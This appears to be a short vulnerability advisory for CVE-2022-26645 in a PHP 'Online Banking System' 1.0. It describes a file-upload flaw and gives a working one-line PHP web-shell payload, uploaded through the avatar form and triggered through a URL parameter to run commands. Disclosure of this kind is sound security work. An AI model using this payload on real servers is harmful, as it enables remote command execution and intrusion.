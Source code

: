 # Tittle: Online Banking System RCE

## Author: (Erik451)

### CVE: [CVE-2022-26645](https://cve.reconshell.com/cve/CVE-2022-26645)
#### **Vendor Homepage**: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)
#### **Software Link**: [Online Banking System](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)
#### **Version**: OBS 1.0

**Description**: Potential RCE and XSS via file upload. A user can use the upload functionality to gain access to the server crafting php code.

---

####  Steps to reproduce:

-  **1- Go to [http://web.com/admin/?page=user](http://web.com/admin/?page=user)**
-  **2- Modify your avatar profile and upload your php code.**

Payload used: `<?php echo shell_exec($_GET['shell']);?>`

![phpcode](https://user-images.githubusercontent.com/47476901/160638195-898d61e9-4467-4e32-b95c-362c0aecff97.png)



-  **3- We can see the url of the uploaded file clicking on the image zone.**

![upload](https://user-images.githubusercontent.com/47476901/160638239-48088317-ba7f-497a-bfb4-91eb9570eda7.png)

- **4- Going to that url we will execute the code.**

http://<ip_server>/uploads/1648559940_shell.php?shell=id
![rce](https://user-images.githubusercontent.com/47476901/160638221-ec57e5bf-4793-459e-8763-a913e496825b.png)

